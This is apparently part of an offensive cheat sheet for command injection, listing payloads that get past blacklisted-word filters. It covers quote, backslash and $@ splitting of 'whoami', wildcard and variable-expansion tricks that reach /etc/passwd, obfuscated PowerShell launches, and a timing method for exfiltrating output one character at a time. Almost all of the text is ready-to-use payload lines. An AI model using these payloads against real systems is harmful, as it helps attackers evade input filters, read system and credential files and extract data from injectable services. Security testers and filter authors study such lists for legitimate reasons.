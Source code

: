 ### **Bypass Blacklisted words** ###


#### **Bypass with single quote** ####

```
w'h'o'am'i
```

#### **Bypass with double quote** ####

```
w"h"o"am"i
```

#### **Bypass with backslash and slash** ####

```
w\ho\am\i
/\b\i\n/////s\h
```

#### **Bypass with $@** ####

```
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

#### **Bypass with variable expansion** ####

```
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### **Bypass with wildcards** ####

```
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

#### **Time based data exfiltration** ####

Extracting data : char by char

```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
